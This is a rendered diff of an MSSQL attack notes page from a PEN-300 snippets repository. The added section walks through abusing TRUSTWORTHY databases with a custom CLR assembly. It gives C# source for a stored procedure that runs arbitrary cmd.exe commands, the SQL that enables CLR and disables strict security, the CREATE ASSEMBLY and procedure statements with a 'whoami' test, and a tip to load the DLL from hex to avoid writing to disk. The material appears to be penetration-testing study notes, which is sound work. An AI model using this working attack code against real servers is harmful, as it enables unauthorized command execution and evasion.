

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -144,6 +145,77 @@ However, since "sp_oacreate" and "sp_oamethod" are disabled by default we must f
 1. EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE;
 ```
 
+**CUSTOM ASSEMBLIES:**
+
+Databases with the "TRUSTWORTHY" property set, can also import managed DLL as objects through the "CREATE ASSEMBLY" statement. So we will try to abuse this. (In our example we will target the "msdb" database)
+
+Managed DLL code:
+
+```
+using System;
+using Microsoft.SqlServer.Server;
+using System.Data.SqlTypes;
+using System.Diagnostics;
+
+public class StoredProcedures
+{
+  [Microsoft.SqlServer.Server.SqlProcedure]
+   public static void cmdExec (SqlString execCommand)
+   {
+     Process proc = new Process();
+     proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
+     proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
+     proc.StartInfo.UseShellExecute = false;
+     proc.StartInfo.RedirectStandardOutput = true;
+     proc.Start();
+     SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
+     SqlContext.Pipe.SendResultsStart(record);
+     record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
+     SqlContext.Pipe.SendResultsRow(record);
+     SqlContext.Pipe.SendResultsEnd();
+     proc.WaitForExit();
+     proc.Close();
+   }
+};
+```
+
+Now, we need to enable the CLR Integration, and disable the "clr strict security" option:
+
+```
+1. use msdb;
+
+2. EXEC sp_configure 'show advanced options',1; RECONFIGURE;
+
+3. EXEC sp_configure 'clr enabled',1; RECONFIGURE;
+
+4. EXEC sp_configure 'clr strict security', 0; RECONFIGURE;
+```
+
+Now, we will create the assembly and a procedure for it:
+
+```
+1. CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
+
+2. CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
+
+3. EXEC cmdExec 'whoami'
+```
+
+To drop an assembly and its procedures:
+
+```
+1. DROP PROCEDURE dbo.cmdExec;
+
+2. DROPASSEMBLY myAssembly;
+```
+
+In order to avoid to put our DLL on disk, we can convert it to hexadecimal and use the "CREATE ASSEMBLY" statement with the hex string of our DLL.
+
+To convert our DLL to an hexadecimal string we will use this powershell script:
+
+```
+```
+
 **CODE EXECUTION ON A LINKED MSSQL SERVER:**
 
 To list linked SQL servers(2 ways):
````
Also changed, not shown: other parts of MSSQL Advanced Attacks.md (+1 -0 lines).
